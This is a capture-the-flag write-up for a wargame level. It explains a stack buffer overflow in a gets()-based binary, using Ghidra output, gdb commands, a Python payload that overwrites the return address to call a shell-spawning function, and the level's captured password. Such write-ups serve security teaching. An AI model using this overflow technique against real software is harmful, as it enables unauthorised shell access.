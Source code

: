 # level1

For the level1 we have a script called level1 made by level2. After analyzing it in ghidra we can see that the main is extremely basic:

```c
void main(void)
{
  char local_50 [76];
  
  gets(local_50);
  return;
}
```

We also can see in the man of gets that this is a function that shouldn't be used at all coast because of it's overflow vulnerabily which sounds delightful for us.

We also can see that local_50 is a buffer of 76 character and indeed when executing level1, if we enter 76 or more characters, we get a segfault. (At 76 characters precisely we get an Illegal instruction to be precise).

After some reaserches on Buffer Overflow exploits we get to learn how to use gdb, a debugger program apparently that allows us to have a ton of details on the program.

Some commands for gdb launched with gdb ./level1:

```
r                   => run the program (run works too)
b main              => set a breakpoint when entering main (can also be an hexadecimal address to stop at a specific line)
disas main          => disassemble a specific functions in order to obtains more infos such as addresses
ni                  => next instruction to go 1 by 1, line by line through the code
info registers      => show all values of registers variables
x/100xb $esp        => show the 100 first spaces of the stack (esp)
p main              => get the address of the main function
```

After checking a little more the code on ghidra, we also found a function called run(), that is not used anywhere:

```c
void run(void)
{
  fwrite("Good... Wait what?\n",1,0x13,stdout);
  system("/bin/sh");
  return;
}
```

This seems very convenient, so we have to call this function somehow.
After some researches we understood that in the stack the code will be executed in some ways that after the buffer, will be the address of the return function. (where the function has to return to come back to main), if we replaced the address of the return function by the address of run() function, then instead of coming back to main, run would be called and the shell would be executed woth level2 rights.

```sh
(gdb) p run
$2 = {<text variable, no debug info>} 0x8048444 <run>
```

We now have the address of run, so we tried to inject in a file 'A' char 76 times and then the address of run function in hexadecimal so:

```sh
echo $(python -c "print('\x90'*76+'\x44\x84\x04\x08')") > /tmp/payload
```

The address has to be written upside down in order to be understood as a pointer address (this is called Little Endian format).
Executing it in gdb we get this:

```sh
(gdb) run < /tmp/payload
Starting program: /home/user/level1/level1 < /tmp/payload
Good... Wait what?

Program received signal SIGSEGV, Segmentation fault.
0x00000000 in ?? ()
```

So the line is printed, but no shell opened. We tried different things to end up with:

```sh
level1@RainFall:~$ cat /tmp/payload -| ./level1
Good... Wait what?
> 
```

The - at the end of the cat is to leave stin open, so the shell can be opened.

```sh
> cat /home/user/level2/.pass
53a4a712787f40ec66c3c26c1f4b164dcad5552b038bb0addd69bf5bf6fa8e77
```
